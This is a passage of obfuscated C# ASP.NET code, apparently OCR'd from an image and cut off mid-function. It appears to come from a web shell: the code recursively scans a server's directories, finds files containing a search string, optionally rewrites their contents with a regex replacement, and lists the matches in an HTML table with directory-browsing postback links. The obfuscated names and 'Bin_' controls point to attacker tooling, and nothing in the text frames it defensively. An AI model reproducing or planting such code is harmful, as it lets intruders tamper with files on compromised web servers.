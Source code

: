 {
FJvQ(Bin_Files);
if(YZw.Checked)
{
ava=Regex.Replace(ava,iaMKl.Value,qPe.Value,RegexOptions.IgnoreCase);
StreamWriter sw=new StreamWriter(Bin_Files.FullName,false,Encoding.Default);
sw.Write(ava);
sw.Close();
}
}
}
else
{
if(ava.ToLower().IndexOf(iaMKl.Value.ToLower())!=-1)
{
FJvQ(Bin_Files);
if(YZw.Checked)
{
ava=Strings.Replace(ava,iaMKl.Value,qPe.Value,1,-1,CompareMethod.Text);
StreamWriter sw=new StreamWriter(Bin_Files.FullName,false,Encoding.Default);
sw.Write(ava);
sw.Close();
}
}
}
}
}
catch(Exception ex)
{
xseuB(ex.Message);
continue;
}
}
foreach(DirectoryInfo subdir in dir.GetDirectories())
{
oog(subdir);
}
}
catch(Exception ex)
{
xseuB(ex.Message);
}
}
public void FJvQ(FileInfo objfile)
{
TableRow tr=new TableRow();
TableCell tc=new TableCell();
string bg=OKM();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tc.Text="<a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(objfile.DirectoryName)+"')\">"+objfile.FullName+"</a>";
tr.Cells.Add(tc);
tc=new TableCell();
tc.Text=objfile.LastWriteTime.ToString();
tr.Cells.Add(tc);
tc=new TableCell();
tc.Text=mTG(objfile.Length);
tr.Cells.Add(tc);
oJiym.Rows.Add(tr);
}
public void xseuB(string instr)
{